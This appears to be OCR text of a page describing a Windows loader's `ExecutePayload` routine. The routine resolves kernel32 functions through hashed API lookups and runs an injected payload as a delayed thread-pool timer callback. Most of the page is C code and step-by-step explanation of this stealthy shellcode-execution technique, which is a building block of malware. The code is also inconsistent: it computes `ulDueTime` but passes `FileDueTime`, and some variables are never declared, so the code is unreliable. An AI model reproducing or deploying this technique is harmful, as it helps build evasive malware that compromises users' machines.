 

#### Implementation of the `ExecutePayload` Function

1. **Retrieve Function Pointers**:
   - Use `GetProcAddressH` and `GetModuleHandleH` to retrieve function pointers for `CreateThreadpoolTimer`, `SetThreadpoolTimer`, and `WaitForSingleObject`.
2. **Initialize Thread Pool Environment**:
   - Use `InitializeThreadpoolEnvironment` to initialize the thread pool environment.
3. **Create Thread Pool Timer**:
   - Use `CreateThreadpoolTimer` to create a thread pool timer, setting the injected payload as the callback function.
4. **Set the Timer**:
   - Configure the timer to trigger after `PAYLOAD_EXECUTION_DELAY` seconds.
5. **Wait for Execution**:
   - Use `WaitForSingleObject` to wait indefinitely, ensuring that the payload executes.



```c
VOID ExecutePayload(IN PVOID pInjectedPayload) {
    // ... existing code ...
    if (!pInjectedPayload) return;

    // Get function pointers
    fnCreateThreadpoolTimer pCreateThreadpoolTimer = (fnCreateThreadpoolTimer)GetProcAddressH(GetModuleHandleH(kernel32dll_CH), CreateThreadpoolTimer_CH);
    fnSetThreadpoolTimer pSetThreadpoolTimer = (fnSetThreadpoolTimer)GetProcAddressH(GetModuleHandleH(kernel32dll_CH), SetThreadpoolTimer_CH);
    fnWaitForSingleObject pWaitForSingleObject = (fnWaitForSingleObject)GetProcAddressH(GetModuleHandleH(kernel32dll_CH), WaitForSingleObject_CH);

    if (!pCreateThreadpoolTimer || !pSetThreadpoolTimer || !pWaitForSingleObject) {
        // ... error handling ...
        return;
    }

    // Initialize and set timer
    InitializeThreadpoolEnvironment(&tpCallbackEnv);
    if (!(ptpTimer = pCreateThreadpoolTimer((PTP_TIMER_CALLBACK)pInjectedPayload, NULL, &tpCallbackEnv))) {
        // ... error handling ...
        return;
    }

    // Set timer to execute payload
    ulDueTime.QuadPart = (ULONGLONG)-(PAYLOAD_EXECUTION_DELAY * 10 * 1000 * 1000);
    pSetThreadpoolTimer(ptpTimer, &FileDueTime, 0x00, 0x00);

    // Wait indefinitely
    pWaitForSingleObject((HANDLE)-1, INFINITE);
}
```
